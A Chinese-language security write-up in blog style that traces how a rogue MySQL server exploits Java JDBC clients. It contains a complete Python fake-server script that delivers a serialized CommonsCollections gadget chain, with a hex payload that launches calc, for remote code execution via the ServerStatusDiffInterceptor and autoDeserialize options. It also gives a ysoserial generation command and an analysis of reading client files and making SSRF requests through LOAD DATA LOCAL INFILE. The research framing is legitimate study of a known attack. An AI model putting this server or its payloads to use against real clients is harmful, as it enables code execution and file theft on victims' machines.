





0x1 Mysql 反序列化
前言：java调试这边分析完了，但是又很想了解这个mysql恶意服务是怎么搭建的，于是就再从流量层面简单分析了下mysql协议，以及按照自己的思路
改造了下mysql恶意服务。感觉有了跟深刻的理解hh
环境
<dependency>
<groupId>mysql</groupId>
<artifactId>mysql-connector-java</artifactId>
<version>8.0.12</version>
</dependency>
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.1</version>
</dependency>
客户端
package mysql;
import java.sql.*;
public class mysql_learn {
public static void main(String[] args) throws Exception {
String ClassName = "com.mysql.jdbc.Driver";
String JDBC_Url = "jdbc:mysql://127.0.0.1:3307/newtest?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor";
String username = "root";
String password = "123456";
Class.forName(ClassName);
Connection connection = DriverManager.getConnection(JDBC_Url,username,password);
// Connection connection = DriverManager.getConnection(JDBC_Url);
}
}
恶意mysql服务器
import socket
import binascii
import os
greeting_data="4a0000000a352e372e31390008000000463b452623342c2d00fff7080200ff811500000000000000000000032851553e5c23502c51366a006d7973716c5f6e61746976655f70617373776f726400"
response_ok_data="0700000200000002000000"
def receive_data(conn):
data = conn.recv(1024)
print("[*] Receiveing the package : {}".format(data))
return str(data).lower()
def send_data(conn,data):
print("[*] Sending the package : {}".format(data))
conn.send(binascii.a2b_hex(data))
def get_payload_content():
#file文件的内容使用ysoserial生成的 使用规则：java -jar ysoserial [Gadget] [command] > payload
file= r'C:\\Users\\jie\\Desktop\\learn\\java\\TOOLS\\ser.bin'
if os.path.isfile(file):
with open(file, 'rb') as f:
payload_content = str(binascii.b2a_hex(f.read()),encoding='utf-8')
print("open successs")
else:
print("open false")
#calc
payload_content='aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000463616c63740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f4000000000000077080000001000000000787878'
return payload_content
# 主要逻辑
def run():
while 1:
conn, addr = sk.accept()
print("Connection come from {}:{}".format(addr[0],addr[1]))
# 1.先发送第一个 问候报文
send_data(conn,greeting_data)
while True:
# 登录认证过程模拟 1.客户端发送request login报文 2.服务端响应response_ok
receive_data(conn)
send_data(conn,response_ok_data)
#其他过程
data=receive_data(conn)
#查询一些配置信息,其中会发送自己的 版本号
if "session.auto_increment_increment" in data:
_payload='01000001112e00000203646566000000186175746f5f696e6372656d656e745f696e6372656d656e74000c3f001500000008a0000000002a00000303646566000000146368617261637465725f7365745f636c69656e74000c21000c000000fd00001f00002e00000403646566000000186368617261637465725f7365745f636f6e6e656374696f6e000c21000c000000fd00001f00002b00000503646566000000156368617261637465725f7365745f726573756c7473000c21000c000000fd00001f00002a00000603646566000000146368617261637465725f7365745f736572766572000c21000c000000fd00001f0000260000070364656600000010636f6c6c6174696f6e5f736572766572000c21002d000000fd00001f000022000008036465660000000c696e69745f636f6e6e656374000c21002a000000fd00001f0000290000090364656600000013696e7465726163746976655f74696d656f7574000c3f001500000008a0000000001d00000a03646566000000076c6963656e7365000c210009000000fd00001f00002c00000b03646566000000166c6f7765725f636173655f7461626c655f6e616d6573000c3f001500000008a0000000002800000c03646566000000126d61785f616c6c6f7765645f7061636b6574000c3f001500000008a0000000002700000d03646566000000116e65745f77726974655f74696d656f7574000c3f001500000008a0000000001e00000e036465660000000873716c5f6d6f6465000c21005f010000fd00001f00002600000f036465660000001073797374656d5f74696d655f7a6f6e65000c21001b000000fd00001f00001f000010036465660000000974696d655f7a6f6e65000c210012000000fd00001f00002b00001103646566000000157472616e73616374696f6e5f69736f6c6174696f6e000c21002d000000fd00001f000022000012036465660000000c776169745f74696d656f7574000c3f001500000008a000000000e9000013013104757466380475746638047574663804757466380f757466385f756e69636f64655f63690e534554204e414d45532075746638033132300347504c0131083136373737323136023630754f4e4c595f46554c4c5f47524f55505f42592c5354524943545f5452414e535f5441424c45532c4e4f5f5a45524f5f494e5f444154452c4e4f5f5a45524f5f444154452c4552524f525f464f525f4449564953494f4e5f42595f5a45524f2c4e4f5f454e47494e455f535542535449545554494f4e0cd6d0b9fab1ead7bccab1bce4062b30383a30300f52455045415441424c452d524541440331323007000014fe000002000000'
send_data(conn,_payload)
data=receive_data(conn)
elif "show warnings" in data:
_payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f000059000005075761726e696e6704313238374b27404071756572795f63616368655f73697a6527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e59000006075761726e696e6704313238374b27404071756572795f63616368655f7479706527206973206465707265636174656420616e642077696c6c2062652072656d6f76656420696e2061206675747572652072656c656173652e07000007fe000002000000'
send_data(conn, _payload)
data = receive_data(conn)
if "set names" in data:
send_data(conn, response_ok_data)
data = receive_data(conn)
if "set character_set_results" in data:
send_data(conn, response_ok_data)
data = receive_data(conn)
if "session.autocommit" in data:
autocommit_result='01000001012a0000020364656600000014404073657373696f6e2e6175746f636f6d6d6974000c3f000100000008800000000002000003013107000004fe000002000000'
send_data(conn, autocommit_result)
data = receive_data(conn)
if "show session status" in data:
mysql_data='0100000102360000020364656604746573740c6a6176615f6f626a656374730c6a6176615f6f626a656374730269640269640c3f000b000000030342000000540000030364656604746573740c6a6176615f6f626a656374730c6a6176615f6f626a656374731173657269616c697a65645f6f626a6563741173657269616c697a65645f6f626a6563740c3f00ffff0000fc9000000000060500040131fc0105aced0005737200116a6176612e7574696c2e48617368536574ba44859596b8b7340300007870770c000000023f40000000000001737200346f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6b657976616c75652e546965644d6170456e7472798aadd29b39c11fdb0200024c00036b65797400124c6a6176612f6c616e672f4f626a6563743b4c00036d617074000f4c6a6176612f7574696c2f4d61703b7870740003666f6f7372002a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e6d61702e4c617a794d61706ee594829e7910940300014c0007666163746f727974002c4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436861696e65645472616e73666f726d657230c797ec287a97040200015b000d695472616e73666f726d65727374002d5b4c6f72672f6170616368652f636f6d6d6f6e732f636f6c6c656374696f6e732f5472616e73666f726d65723b78707572002d5b4c6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e5472616e73666f726d65723bbd562af1d83418990200007870000000057372003b6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e436f6e7374616e745472616e73666f726d6572587690114102b1940200014c000969436f6e7374616e7471007e00037870767200116a6176612e6c616e672e52756e74696d65000000000000000000000078707372003a6f72672e6170616368652e636f6d6d6f6e732e636f6c6c656374696f6e732e66756e63746f72732e496e766f6b65725472616e73666f726d657287e8ff6b7b7cce380200035b000569417267737400135b4c6a6176612f6c616e672f4f626a6563743b4c000b694d6574686f644e616d657400124c6a6176612f6c616e672f537472696e673b5b000b69506172616d54797065737400125b4c6a6176612f6c616e672f436c6173733b7870757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000274000a67657452756e74696d65757200125b4c6a6176612e6c616e672e436c6173733bab16d7aecbcd5a990200007870000000007400096765744d6574686f647571007e001b00000002767200106a6176612e6c616e672e537472696e67a0f0a4387a3bb34202000078707671007e001b7371007e00137571007e001800000002707571007e001800000000740006696e766f6b657571007e001b00000002767200106a6176612e6c616e672e4f626a656374000000000000000000000078707671007e00187371007e0013757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b4702000078700000000174000863616c632e657865740004657865637571007e001b0000000171007e00207371007e000f737200116a6176612e6c616e672e496e746567657212e2a0a4f781873802000149000576616c7565787200106a6176612e6c616e672e4e756d62657286ac951d0b94e08b020000787000000001737200116a6176612e7574696c2e486173684d61700507dac1c31660d103000246000a6c6f6164466163746f724900097468726573686f6c6478703f400000000000007708000000100000000078787807000005fe000002000000'
#mysql_data是测试 返回SHOW SESSION STATUS结果 的原始数据流
payload_content=get_payload_content()
payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
payload_length_hex = payload_length[2:4] + payload_length[0:2]
data_len = str(hex(len(payload_content)//2 + 5)).replace('0x', '').zfill(4)
data_len_hex = data_len[2:4] + data_len[0:2]
mysql_data2='0100000102360000020364656604746573740c6a6176615f6f626a656374730c6a6176615f6f626a656374730269640269640c3f000b000000030342000000540000030364656604746573740c6a6176615f6f626a656374730c6a6176615f6f626a656374731173657269616c697a65645f6f626a6563741173657269616c697a65645f6f626a6563740c3f00ffff0000fc9000000000'
mysql_data2=mysql_data2+data_len_hex+'0004'+'0131'+'fc'+payload_length_hex+payload_content
mysql_data2+='07000005fe000002000000'
send_data(conn, mysql_data2)
data = receive_data(conn)
if "show warnings" in data:
payload = '01000001031b00000203646566000000054c6576656c000c210015000000fd01001f00001a0000030364656600000004436f6465000c3f000400000003a1000000001d00000403646566000000074d657373616765000c210000060000fd01001f00006d000005044e6f74650431313035625175657279202753484f572053455353494f4e20535441545553272072657772697474656e20746f202773656c6563742069642c6f626a2066726f6d2063657368692e6f626a73272062792061207175657279207265777269746520706c7567696e07000006fe000002000000'
send_data(conn, payload)
break
if __name__ == '__main__':
HOST ='0.0.0.0'
PORT = 3307
sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#当socket关闭后，本地端用于该socket的端口号立刻就可以被重用.为了实验的时候不用等待很长时间
sk.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sk.bind((HOST, PORT))
sk.listen(1)
print("start fake mysql server listening on {}:{}".format(HOST,PORT))
run()
● 编写反序列化的恶意数据到文件 ser.bin 中
java -jar ysoserial.jar CommonsCollections6 calc.exe > ser.bin
0x01 分析
queryInterceptors
这里我想先反着来，先理解poc中这个设置ServerStatusDiffInterceptor，为什么设置这个
queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
我们知道mysql打的是反序列化，前辈挖可能也是根据readObject定位。
根据getObject往上则找到ServerStatusDiffInterceptor这个类
我们后面再说这个咋调用的。
开头
现在我从DriverManager.getConnection开始调试分析整个流程！（中间部分调试，我觉得沉余就省略了
这里直接到ConnectionUrl.getConnectionUrlInstance这个地方会对我们传入的url(JDBC_Url)进行分类封装。
然后到ConnectionImpl，这里会初始化我们设置的queryInterceptors值，o.init会调用ServerStatusDiffInterceptor#init
然后包装成一个Arraylist存储到this.queryInterceptors中
然后client端这边想执行一个SET autocommit=1语句
然后我们看后面是怎么执行的
NativeProtocol#sendQueryPacket
这里发现会判断是否有设置queryInterceptors拦截器，有的话会通过这个拦截器完成执行SET autocommit=1这个任务(没有的话，就直接发送这个请求给mysql服务器，执行这条sql语句并返回值)
然后一路到调用这个拦截器的preProcess()方法
而ServerStatusDiffInterceptor#preProcess正是调用populateMapWithSessionStatusValues()方法，于是利用点也就穿起来了
public <T extends Resultset> T preProcess(Supplier<String> sql, Query interceptedQuery) {
populateMapWithSessionStatusValues(this.preExecuteValues);
return null; // we don't actually modify a result set
}
本来是要执行SET autocommit=1，结果ServerStatusDiffInterceptor转头执行了个SHOW SESSION STATUS，并处理这个返回的结果（利用点也出在）
SHOW SESSION STATUS 执行结果
SHOW SESSION STATUS 执行结果其实也就是相当于select * from table(table是两个字段的)
下面rs.getObject(1), rs.getObject(2)就是获取第一个字段，第二个字段
autoDeserialize
然后就到了最终利用点，这里数据类型得是BLOB，然后这里也是为什么要设置autoDeserialize(true可以用1绕过)，其实BIT类型也有readobject，但是我搜索的时候bit长度不能太长(这个没去验证)，但是序列化数据是需要长度的，所以这里用BLOB
上述就是调试的整个流程
0x02 mysql恶意服务构造
package mysql;
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.ResultSet;
import java.sql.Statement;
public class contect_test {
public static void main(String[] args) throws Exception{
String Driver = "com.mysql.cj.jdbc.Driver";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/newtest?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true";
Class.forName(Driver);
Connection conn = DriverManager.getConnection(DB_URL,"root","123456");
Statement statement = conn.createStatement();
// 5.执行SQL的对象去执行SQL，返回结果集
String sql = "select * from test.java_objects;";
ResultSet resultSet = statement.executeQuery(sql);
System.out.println(resultSet);
}
}
我们去连接一个正常的mysql服务，看看是怎么交互的
流量层面
通过tcp.port ==3306 && mysql，赛选流量
我们可以看到在执行SHOW SESSION STATUS前，client和mysql服务之间其实已经做过一些交互了。
这里因为都是mysql协议，有些tcp协议没有，11这步我看参考文章没有，但是我这边请求的时候有这步
1.-->应该是client去请求mysql (tcp)
2.<--mysql返回一个 Greeting (有mysql版本信息)
3.-->client去连接mysql，数据库和登录信息
4.<--mysql返回OK
5.-->clint 查询了一大堆sql变量
SELECT @@session.auto_increment_increment AS auto_increment_increment,... //这里省略了
6.<--mysql返回对应值
7.-->client设置 SET NAMES utf8
8.<--mysql返回OK
9.-->SET character_set_results = NULL
10.<--mysql返回OK
11.-->SELECT @@session.autocommit
12.<--mysql返回对应值
13.-->SHOW SESSION STATUS
14.<--mysql返回对应值
然后这里思路是跟着参考文章进行的，这里查询的语句其实是固定的，而结果其实也可以是固定的，client又分别不出来。所以前面的返回值，我们都可以照抄mysql服务的，我们只需要构造出SHOW SESSION STATUS的返回值即可。
构造数据包
这里我和参考文章的构造思路不一样，其实不用想那么复杂，也不用完全自己去构造一个数据包，这些都可以让mysql来帮我们做
我之前说过
SHOW SESSION STATUS的结果，其实就是查询了一个有两个字段的表，上图中两个field packet就对应的两列，而每个row packet其实就是一行结果的一对值而已，而每个值都会被getObject()调用的（也就是都有可能反序列化的）。
我起初想的直接替换一个row packet，这样整体的len以及其他参数也不会被影响改好自己这个row packet就行了。但其实不行，利用点这里switch的是field中的Type（而不是靠row packet中的数据识别），所以我们也要修改掉这个值。而改这个的话，其他值也会受影响，不如搞个新的。
Field field = this.columnDefinition.getFields()[columnIndexMinusOne];
switch (field.getMysqlType()) {
case BIT:
...
我说过SHOW SESSION STATUS的结果，其实就是查询了一个有两个字段的表
那我直接建一个这样的表，并且第二个数据就是序列化的数据。然后抓到这个流量直接替换不就行了！
mysql
CREATE TABLE java_objects (
id INT AUTO_INCREMENT PRIMARY KEY,
serialized_object BLOB
);
insert java_objects values (1,load_file('C:\\Users\\jie\\Desktop\\learn\\java\\TOOLS\\ser.bin'));
然后我们
要发送的数据从MySQL Protocol - column count到MySQL Protocol - response OK结束，测试是成功的。（脚本中mysql_data就是要发送整个的值）不过我这边多了一步
SELECT @@session.autocommit，不过问题不大，在原脚本基础上再加一个这个的返回值就好了
然后可以利用了但是，不方便，总不能每次换个链子就去抓个流量吧
if "show session status" in data:
mysql_data='01000001023...'
...
那其实改的话，也就控制好上图这个row packet就行。也就是控制好长度的变化就行了
然后这块row packet数据是从0605开始到序列化数据结束，我这里直接一起说了吧，懒得每个截图了
这里将这个整个要返回的数据分成这几块
0100000102360000020364656…
- //column count和filed packet那块数据，我用mysql都设置好了，不用改
060500 04 0131 fc 0105
长度这里都是采用
小端序，0605实际长度要倒过来计算，0506的值才是1286
060500（row packet开头）代表的整个row packet的长度，这里选到Packet Length: 1286右边对应的是060500，这里我开始觉得00是用来分割的，经过下方**Packet Length 验证**的分析，Packet Length确实对应3byte
04代表Packet Number: 4，意思是这是第四个数据包。在这个poc下，这个值也是固定的
013101代表的是长度及len=1，31十六进制对应49十进制（代表int 1），这个也是固定的
fc，应该是代表BLOB数据类型的！——！
0105及就是序列化数据的长度了aced0005737200116a6176612e… //序列化数据
07000005fe000002000000 //MySQL Protocol - response OK 数据
所以要注意的就是row packet的整个len和序列化数据的len
payload_length = str(hex(len(payload_content)//2)).replace('0x', '').zfill(4)
payload_length_hex = payload_length[2:4] + payload_length[0:2]
data_len = str(hex(len(payload_content)//2 + 5)).replace('0x', '').zfill(4)
data_len_hex = data_len[2:4] + data_len[0:2]
那简单说说吧，这里
len//2是因为获取的是16进制的长度，但两个16进制字符才代表一个数据，所以要除2然后data_len为什么要
+5,data_len对应流量中两个text的长度，第一个是0131这里+2，第二个还有fc+序列化数据的长度(len需要两个数据记录)没算上这里要+3，所以要+5 //参考文章这里是+4,估计是没第一个text
然后就得到上面用的脚本啦，脚本也只是在前辈脚本上涂涂画画hhh，感觉还不错
不过我Greeting那个返回数据，我用我8.0.x版本的mysql生成的数据发送就是不行，用原脚本5.7的就可以，其他的数据都没问题就这个地方不行，看着也没啥毛病！——！

0x2 Mysql 任意文件读取 & SSRF
Mysql 任意文件读取原理
**利用条件：**client端具有文件读取权限
load data infile "/data/data.csv" into table TestTable; load data local infile "/data/test.csv" into table TestTable;第一行是读取
服务端本地的文件，第二行是读取客户端本地的文件。问题就出在
第二行该漏洞的核心原理在于MySQL服务端可以利用
LOAD DATA LOCAL命令来读取MYSQL客户端的任意文件。
- 客户端：把我我本地
/data/test.csv的内容插入到TestTable表中去- 服务端：请把你本地
/etc/passwd的内容发送给我 //正常应该是要求client端发送/data/test.csv的内容- 客户端：好的，这是我本地
/etc/passwd的内容：….- 服务端：到这我们就获取到了
/etc/passwd的内容
环境
依赖用mysql反序列化的就行
然后运行mysql恶意服务
package mysql;
import java.sql.Connection;
import java.sql.DriverManager;
public class read_file {
public static void main(String[] args) throws Exception {
String Driver = "com.mysql.cj.jdbc.Driver";
// 1、加载驱动
Class.forName(Driver);
Connection conn = DriverManager.getConnection("jdbc:mysql://127.0.0.1:3307/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true&maxAllowedPacket=655360#&serverTimezone=Asia/Shanghai&allowLoadLocalInfile=false&allowUrlInLocalInfile=false","win_hosts","123456");
// Connection conn = DriverManager.getConnection("jdbc:mysql://127.0.0.1:3306/newtest?allowLoadLocalInfile=true&allowUrlInLocalInfile=true&maxAllowedPacket=655360&serverTimezone=Asia/Shanghai","root","123456");
System.out.println(conn);
}
}
0x01 分析
此分析借助了 https://github.com/fnmsd/MySQL_Fake_Server 这位佬写的工具。使用还是很好用的，但是感觉不是很好读，我也不想细看，直接分析流量吧，然后自己写一个吧
分析前我就在想，java连接mysql也不会自己执行
load data local infile吧，这个咋触发的呀，分析完怎么说呢，不用java请求执行load data local infile，但是java能处理Response LOCAL INFILE就行
那直接看到NativeSession#loadServerVariables，看这个第一个if的判断，这里会获取mysql服务端的版本和5.1.0进行一个比较，这里我们希望进入else，进入if其实也能操作的(下方0x02有验证)

这里我们mysql恶意服务端版本是5.0.2,compareTo()中大于返回1，等于返回0，小于返回-1
第一个都是5，第二个我们是0<1所以这里返回-1
然后进入else
else {
NativePacketPayload resultPacket = sendCommand(this.commandBuilder.buildComQuery(null, versionComment + "SHOW VARIABLES"), false, 0);
Resultset rs = ((NativeProtocol) this.protocol).readAllResults(-1, false, resultPacket, false, null,
new ResultsetFactory(Type.FORWARD_ONLY, null));
...
这里会给mysql服务端发送一个SHOW VARIABLES，然后java客户端这边会处理mysql返回的数据,然后漏洞利用也就在这个readAllResults()处理数据这里面了
这里其实if和else处理mysql数据逻辑是一样的，所以我觉得应该都是可以利用的（可以的哟）
我们跟进readAllResults(),跟进到TextResultsetReader#read
这里会先判断mysql返回值有没有字段，这里我们要让我们的columnCount为-1才行，要进入下方的else
那我们跟进看看具体逻辑吧，传入的类型是INT_LENENC，进入对应case
会和mysql返回的数据的第一个byte和0xff做&运算值为251（其实就是0xfb）即返回NULL_LENGTH(-1)
可以看到这里必须是-1才行（这里if其实也是判断是不是LOCAL INFILE Packet (0xfb)类型），resultPacket.readString()会去识别mysql数据中的文件名，然后this.protocol.sendFileToServer()读取发送文件内容给mysql服务端
文件名获取逻辑：其实就是取第一个byte(0xfb用来表示类型的)，以及去除后面的00
然后看到sendFileToServer()，这里我们知道要让allowLoadLocalInfile=true
下面有个关于allowUrlInLocalInfile的设置，true可以远程加载，这里我们读取的是本地文件其实无所谓这个参数
然后read读取文件数据后，send发送给mysql服务端
[*]Mysql SSRF
上面分析中说到这个allowUrlInLocalInfile，给这个参数设置trueorYES，或进入下面这个else中，URL.openSteam()这里会发出url请求，下方read和send还会吧请求返回的结果发送给我们的恶意MySQL服务
这里测试下面这两个都是可以成功请求的
http://baidu.com/
file:///c:\windows\win.ini
继续跟进openSteam()的话，url请求会在这个writeRequests()发送
Packet Length 验证
为了监测这个是3字节还是2字节，我这里想的是传一个超过0xffff长度的数据，看mysql会怎么操作，发现超过0x4000，就会进行分段传输处理，所以我还是认为00是用来分割的
# 定义要生成的文件路径
file_path = 'large_binary_file.bin'
# 设定目标文件大小，这里将其设为 0x10000（大于 0xffff）
target_size = 0x10000
# 以二进制写入模式打开文件
with open(file_path, 'wb') as file:
# 每次写入一个字节的数据，循环直至达到目标文件大小
for _ in range(target_size):
# 写入一个字节，值为 0
file.write(b'a')
print(f"已生成数据长度大于 0xffff 的二进制文件: {file_path}")
CREATE TABLE large_text_table (
id INT AUTO_INCREMENT PRIMARY KEY, -- 自增的主键字段
large_text_data LONGTEXT -- 用于存储大文本数据的字段
);
